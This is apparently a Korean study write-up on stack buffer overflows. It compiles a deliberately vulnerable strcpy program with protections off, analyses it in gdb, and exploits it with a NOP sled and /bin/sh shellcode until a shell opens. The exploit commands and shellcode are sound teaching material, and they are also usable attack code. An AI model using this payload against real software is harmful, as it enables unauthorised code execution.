 # Buffer Overflow란?

**Buffer Overflow**는 C언어나 C++에서 버퍼에 데이터를 입력 받을 때 **입력 값의 크기를 검증하지 않아** 
버퍼가 흘러 넘쳐 다른 변수나 메모리를 덮어 씌우게 되는 버그이다.   
이 취약점을 이용해 **Return address**를 원하는 주소로 덮어 씌워 **IP(Instruction Pointer)를 제어**할 수 있게 된다.   
Buffer Overflow에는 **Stack Overflow**와 **Heap Overflow**가 있다.

## 실습
``` C
# include <stdio.h>
# inslucd <string.h>

int main(int argc, char *argv[])
{
    char buf[256];
    
    strcpy(buf, argv[1]);
    printf("%s\n", buf);
}
```
**strcpy 함수**로 argv[1]을 buf로 복사하고 printf로 출력한다.   
여기서 취약점은 **strcpy** 함수에서 발생한다.   
strcpy 함수는 null byte(문자열의 끝)를 만날 때까지 문자열을 복사하는 함수이다. 즉, 복사하는 버퍼의 크기를 검증하지 않는 취약한 함수이다.   
그래서 buf의 크기인 256byte를 훨씬 넘는 데이터도 buf에 복사할 수 있게 된다.

```
oojin@ubuntu:~/Study/System/BOF$ gcc -m32 -fno-stack-protector -mpreferred-stack-boundary=2 -z execstack -no-pie -o bugfile1 bugfile1.c
yoojin@ubuntu:~/Study/System/BOF$ ls
bugfile1  bugfile1.c
yoojin@ubuntu:~/Study/System/BOF$ ./bugfile1 AAAA
AAAA
```
32bit로 컴파일 시켰다. AAAA를 입력하면 AAAA가 출력되는 그런 형식이다.

```
yoojin@ubuntu:~/Study/System/BOF$ gdb -q bugfile1
Reading symbols from bugfile1...(no debugging symbols found)...done.
(gdb) disas main
Dump of assembler code for function main:
   0x0804843b <+0>:	push   ebp
   0x0804843c <+1>:	mov    ebp,esp
   0x0804843e <+3>:	sub    esp,0x100 //0x100은 10진수로 256
   0x08048444 <+9>:	mov    eax,DWORD PTR [ebp+0xc]
   0x08048447 <+12>:	add    eax,0x4
   0x0804844a <+15>:	mov    eax,DWORD PTR [eax]
   0x0804844c <+17>:	push   eax
   0x0804844d <+18>:	lea    eax,[ebp-0x100]
   0x08048453 <+24>:	push   eax
   0x08048454 <+25>:	call   0x8048300 <strcpy@plt>
   0x08048459 <+30>:	add    esp,0x8
   0x0804845c <+33>:	lea    eax,[ebp-0x100]
   0x08048462 <+39>:	push   eax
   0x08048463 <+40>:	call   0x8048310 <puts@plt>
   0x08048468 <+45>:	add    esp,0x4
   0x0804846b <+48>:	mov    eax,0x0
   0x08048470 <+53>:	leave  
   0x08048471 <+54>:	ret    
End of assembler dump.
```

gdb로 bugfile1을 분석해 보았다. main함수를 disassemble하면 위와 같다.
main+3에서 stack을 0x100만큼 확장하였다.(변수 할당)   

RET(4)   
SFP(4)   
buf(256)   

buf가 256byte, SFP가 4byte 그리고 RET(Return address)이니 260 byte를 넘게 입력하면 RET가 덮일 것이다.   
./bugfile1 $(python -c 'print("A" * 264)')를 입력하였을 때, Return address가 덮여서 segmantation fautl가 났다.   
이때 EIP는 0x41414141로 덮인 상태이다.   
이제 쉘 코드를 메모리 어딘가에 넣어서 공격을 하면 된다.   
bugfile1은 argv[1]을 buf로 복사하니, agrv[1]에 넣고 Return address를 buf의 주소로 덮어씌우면 된다.   
buf의 주소를 찾아보겠다. main+33 지점이 strcpy 함수가 끝나는 시점이니 이곳에 break를 걸고 디버깅 해 보았다.

```
(gdb) b* main+33
Breakpoint 1 at 0x804845c
(gdb) r $(python -c 'print("A"*264)')
Starting program: /home/yoojin/Study/System/BOF/bugfile1 $(python -c 'print("A"*264)')

Breakpoint 1, 0x0804845c in main ()
(gdb) x/70wx $esp
0xffffce38:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffce48:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffce58:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffce68:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffce78:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffce88:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffce98:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcea8:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffceb8:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcec8:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffced8:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcee8:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcef8:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcf08:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcf18:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcf28:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcf38:	0x41414141	0x41414141	0x00000000	0xffffcfd4
0xffffcf48:	0xffffcfe0	0x00000000
```

스택에 argv[1]에 입력한 A 264개가 들어 있다.
buf의 주소는 **0xffffce38** 이다.

이제 argv[1]에 쉘코드를 넣고 RET 전까지 채운 후, buf 주소를 넣으면 된다.
하지만 buf의 주소가 정확하지 않을 수도 있기 때문에 **NOP Slide** 또는 ** NOP Sled** 라는 기법을 사용하면 성공 확률을 높일 수 있다.

쉘 코드는 /bin/sh를 실행시키는 25byte 코드를 사용하였다.
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"

**NOP(100)+SELLCODE(25)+NOP(131)+SFP(4)+RET(4)**
이렇게 하면 된다.

```
yoojin@ubuntu:~/Study/System/BOF$ ./bugfile1 $(python -c 'print("\x90"*100+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"+"\x90"*135+"\x38\xce\xff\xff")')
����������������������������������������������������������������������������������������������������1�Ph//shh/bin��P��S���
                                          ���������������������������������������������������������������������������������������������������������������������������������������8���
Segmentation fault (core dumped)
```

공격이 실패했다. 이유는 gdb에서 분석시에 buf의 주소와 실제 시행 시에 buf의 주소가 차이가 나기 떄문이다.
bugfile1의 소스 코드르 조금 수정하여 실제  buf 주소가 무엇인지 확인 해 보았다.

``` C
# include <stdio.h>
# inslucd <string.h>

int main(int argc, char *argv[])
{
    char buf[256];
    
    strcpy(buf, argv[1]);
    printf("%s\n", buf);
    printf("%p\n", buf);
}
```

printf 함수로 buf의 주소를 출력해보았다.

```
yoojin@ubuntu:~/Study/System/BOF$ ./bugfile1 $(python -c 'print("\x90"*100+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"+"\x90"*135+"\x38\xce\xff\xff")')
����������������������������������������������������������������������������������������������������1�Ph//shh/bin��P��S���
                                          ���������������������������������������������������������������������������������������������������������������������������������������x���
0xffffce78
```

실제 buf의 주소는 **0xffffce78**이었다.

```
yoojin@ubuntu:~/Study/System/BOF$ ./bugfile1 $(python -c 'print("\x90"*100+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"+"\x90"*135+"\x78\xce\xff\xff")')
����������������������������������������������������������������������������������������������������1�Ph//shh/bin��P��S���
                                          ���������������������������������������������������������������������������������������������������������������������������������������x���
0xffffce78
$ id
uid=1000(yoojin) gid=1000(yoojin) groups=1000(yoojin),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
```

실제 주소인 **0xffffce78**로 다시 exploit을 시도해보았더니 성공하였다.

